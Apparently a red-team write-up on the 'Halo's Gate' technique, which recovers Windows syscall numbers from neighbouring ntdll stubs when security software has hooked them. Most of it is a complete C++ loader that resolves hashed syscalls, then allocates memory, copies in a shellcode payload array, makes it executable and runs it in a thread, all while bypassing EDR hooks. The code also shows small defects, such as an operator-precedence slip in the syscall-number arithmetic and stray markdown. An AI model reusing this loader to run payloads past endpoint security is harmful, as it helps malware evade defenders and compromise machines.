

**Hell's Gate relies on inspecting an `NT*` stub inside `ntdll.dll`. A simplified clean x64 stub looks like:

```
NtExample:
    mov r10, rcx
    mov eax, 0xNN     ; SSN
    syscall
    ret
```

The problem appears when a security product has modified the beginning of the function.



In that moment appears **Halo's Gate**, this new technique tries to solve hell's gate problem and try to obtain the syscall number by looking the neighbour functions.

Here's how it works:

1. Scans `ntdll.dll` in memory to find the syscall number for a given function. If the syscall number is found and is unhooked, it porceeds normally.
2. If the syscall stub is hooked, the code checks the neighboring syscalls instead of failing inmediately.
3. It first looks at the next syscall downward in memory by adding 32 bytes to the current location. This is because each syscall stub in `ntdll.dll` is 32 bytes sized. If this downward syscall is unhoooked, it retrieves its syscall number and subtracts 1 to calculate the syscall number of the required function.
4. If the downward syscall is also hooked, it checks the syscall above.
5. If both the immediate neighbors are also hooked, the search continues further until an unhooked syscall is found. Once an unhooked syscall is located, the required syscall number is calculated based on its relative position.
6. Once found, the function proceeds with direct syscall execution, like Hell's Gate.


```cpp
#include <Windows.h>
#include "structs.h"
#include <stdio.h>
#include <stdlib.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

#define UP -32
#define DOWN 32

/*--------------------------------------------------------------------
  VX Tables
--------------------------------------------------------------------*/
typedef struct _VX_TABLE_ENTRY {
	PVOID   pAddress;
	DWORD64 dwHash;
	WORD    wSystemCall;
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;

typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;

/*--------------------------------------------------------------------
  Function prototypes.
--------------------------------------------------------------------*/
PTEB RtlGetThreadEnvironmentBlock();
BOOL GetImageExportDirectory(
	_In_ PVOID                     pModuleBase,
	_Out_ PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory
);
BOOL GetVxTableEntry(
	_In_ PVOID pModuleBase,
	_In_ PIMAGE_EXPORT_DIRECTORY pImageExportDirectory,
	_In_ PVX_TABLE_ENTRY pVxTableEntry
);
extern "C" BOOL VxPayload(
	_In_ PVX_TABLE pVxTable
);
PVOID VxMoveMemory(
	_Inout_ PVOID dest,
	_In_    const PVOID src,
	_In_    SIZE_T len
);

/*--------------------------------------------------------------------
  External functions' prototype.
--------------------------------------------------------------------*/
extern "C" DWORD wSystemCall;

extern "C" VOID HellsGate(
    WORD wwSystemCall
);

extern "C" NTSTATUS SysNtAllocateVirtualMemory(
    HANDLE ProcessHandle, 
    PVOID *BaseAddress, 
    ULONG_PTR ZeroBits, 
    PULONG RegionSize, 
    ULONG AllocationType, 
    ULONG Protect
);

extern "C" NTSTATUS SysNtCreateThreadEx(
    PHANDLE hThread,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress, 
    LPVOID lpParameter, 
    BOOL CreateSuspended, 
    ULONG StackZeroBits, 
    ULONG SizeOfStackCommit, 
    ULONG SizeOfStackReserve, 
    LPVOID lpBytesBuffer
);

// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtProtectVirtualMemory.html
extern "C" NTSTATUS SysNtProtectVirtualMemory(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    PULONG NumberOfBytesToProtect,
    ULONG NewAccessProtection,
    PULONG OldAccessProtection

);

//http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtProtectVirtualMemory.html
extern "C" NTSTATUS SysNtWaitForSingleObject(
    HANDLE ObjectHandle,
    BOOLEAN Alertable,
    PLARGE_INTEGER TimeOut
);


typedef BOOL (WINAPI * VirtualProtect_t)(LPVOID, SIZE_T, DWORD, PDWORD);
VirtualProtect_t VirtualProtect_p = NULL;


PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64
	return (PTEB)__readgsqword(0x30);
#else
	return (PTEB)__readfsdword(0x16);
#endif
}

DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x7734773477347734;
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}

BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
	// Get DOS header
	PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
	if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
		return FALSE;
	}

	// Get NT headers
	PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
	if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
		return FALSE;
	}

	// Get the EAT
	*ppImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)pModuleBase + pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);
	return TRUE;
}

BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
	PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
	PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
	PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);

	for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
		PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
		PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];

		if (djb2((PBYTE)pczFunctionName) == pVxTableEntry->dwHash) {
			pVxTableEntry->pAddress = pFunctionAddress;

			// First opcodes should be :
			//    MOV R10, RCX
			//    MOV RAX, <syscall>
			if (*((PBYTE)pFunctionAddress) == 0x4c
				&& *((PBYTE)pFunctionAddress + 1) == 0x8b
				&& *((PBYTE)pFunctionAddress + 2) == 0xd1
				&& *((PBYTE)pFunctionAddress + 3) == 0xb8
				&& *((PBYTE)pFunctionAddress + 6) == 0x00
				&& *((PBYTE)pFunctionAddress + 7) == 0x00) {
			
				BYTE high = *((PBYTE)pFunctionAddress + 5);
				BYTE low = *((PBYTE)pFunctionAddress + 4);
				pVxTableEntry->wSystemCall = (high << 8) | low;
				
				return TRUE;
			}

			// if hooked check the neighborhood to find clean syscall
			if (*((PBYTE)pFunctionAddress) == 0xe9) {

				for (WORD idx = 1; idx <= 500; idx++) {
					// check neighboring syscall down
					if (*((PBYTE)pFunctionAddress + idx * DOWN) == 0x4c
						&& *((PBYTE)pFunctionAddress + 1 + idx * DOWN) == 0x8b
						&& *((PBYTE)pFunctionAddress + 2 + idx * DOWN) == 0xd1
						&& *((PBYTE)pFunctionAddress + 3 + idx * DOWN) == 0xb8
						&& *((PBYTE)pFunctionAddress + 6 + idx * DOWN) == 0x00
						&& *((PBYTE)pFunctionAddress + 7 + idx * DOWN) == 0x00) {
						BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * DOWN);
						BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * DOWN);
						pVxTableEntry->wSystemCall = (high << 8) | low - idx;
						
						return TRUE;
					}
					// check neighboring syscall up
					if (*((PBYTE)pFunctionAddress + idx * UP) == 0x4c
						&& *((PBYTE)pFunctionAddress + 1 + idx * UP) == 0x8b
						&& *((PBYTE)pFunctionAddress + 2 + idx * UP) == 0xd1
						&& *((PBYTE)pFunctionAddress + 3 + idx * UP) == 0xb8
						&& *((PBYTE)pFunctionAddress + 6 + idx * UP) == 0x00
						&& *((PBYTE)pFunctionAddress + 7 + idx * UP) == 0x00) {
						BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * UP);
						BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * UP);
						pVxTableEntry->wSystemCall = (high << 8) | low + idx;
						
						return TRUE;
					}

				}
				
				return FALSE;
			}
		}
	}

	return TRUE;
}

unsigned char payload[] = {0x17, 0xd7, 0xf4, ...};

BOOL VxPayload(PVX_TABLE pVxTable) {

	NTSTATUS status = 0x00000000;
    PVOID lpAddress;
    SIZE_T sDataSize;
    ULONG ulOldProtect = 0;
	LARGE_INTEGER Timeout;
	Timeout.QuadPart = -2000000000; //timeout 200s
    HANDLE pHandle = GetCurrentProcess();
    HANDLE hHostThread = NULL;

    int payload_len = sizeof(payload);
	sDataSize = payload_len;

	// Allocate memory for the shellcode
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
    printf("\t[+] Hellsgate -> SysNtAllocateVirtualMemory: %x\n", pVxTable->NtAllocateVirtualMemory.wSystemCall);
	status = SysNtAllocateVirtualMemory(pHandle, &lpAddress, 0, (PULONG)&sDataSize, MEM_COMMIT, PAGE_READWRITE);
	printf("\t[+] Hellsdecent -> NTSTATUS=0x%08X\n", status);
    
    printf("payload: 0x%p | p_size: %d | lpAddress: 0x%p\n", payload, payload_len, lpAddress); getchar();
	
    // Write Memory
	VxMoveMemory(lpAddress, payload, payload_len);
    printf("[+] Payload copied\n");
	getchar();
	// Change page permissions
    printf("\t[+] Hellsgate -> SysNtProtectVirtualMemory: %x\n", pVxTable->NtProtectVirtualMemory.wSystemCall);
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	status = SysNtProtectVirtualMemory(pHandle, &lpAddress, (PULONG)&sDataSize, PAGE_EXECUTE_READ, &ulOldProtect);
    printf("\t[+] Hellsdecent -> NTSTATUS=0x%08X\n", status);
	getchar();

	// Create thread
    printf("\t[+] Hellsgate -> SysNtCreateThreadEx: %x\n", pVxTable->NtCreateThreadEx.wSystemCall);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	status = SysNtCreateThreadEx(&hHostThread, THREAD_ALL_ACCESS, NULL, pHandle, (LPTHREAD_START_ROUTINE)lpAddress, NULL, FALSE, 0, 0, 0, NULL);
    printf("\t[+] Hellsdecent -> NTSTATUS=0x%08X\n", status);
	getchar();

	// Wait for 1 seconds
    printf("\t[+] Hellsgate -> SysNtWaitForSingleObject: %x\n", pVxTable->NtWaitForSingleObject.wSystemCall);
	HellsGate(pVxTable->NtWaitForSingleObject.wSystemCall);
	status = SysNtWaitForSingleObject(hHostThread, FALSE, &Timeout);
    printf("\t[+] Hellsdecent -> NTSTATUS=0x%08X\n", status);

	return TRUE;
}

PVOID VxMoveMemory(PVOID dest, const PVOID src, SIZE_T len) {
	char* d = (char *)dest;
	const char* s = (const char *)src;
	if (d < s)
		while (len--)
			*d++ = *s++;
	else {
		char* lasts = (char *)s + (len - 1);
		char* lastd = d + (len - 1);
		while (len--)
			*lastd-- = *lasts--;
	}
	return dest;
}


int main(int argc, char ** argv) {

	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;

	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return 0x1;

	// Get NTDLL module 
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Get the EAT of NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return 0x01;

	VX_TABLE Table = { 0 };
	Table.NtAllocateVirtualMemory.dwHash = 0xf5bd373480a6b89b;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
		return 0x1;

	Table.NtCreateThreadEx.dwHash = 0x64dc7db288c5015f;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
		return 0x1;

	Table.NtProtectVirtualMemory.dwHash = 0x858bcb1046fb6a37;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
		return 0x1;

	Table.NtWaitForSingleObject.dwHash = 0xc6a2fa174e551bcb;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWaitForSingleObject))
		return 0x1;
	

    // Syscalls
	VxPayload(&Table);
    printf("[+] Finished!\n");

    return 0x00;
}
```

# References:

* Reenz0h from @SEKTOR7net
* [https://www.100daysofredteam.com/p/what-is-halos-gate-and-how-it-enables-red-team-tradecraft](https://www.100daysofredteam.com/p/what-is-halos-gate-and-how-it-enables-red-team-tradecraft)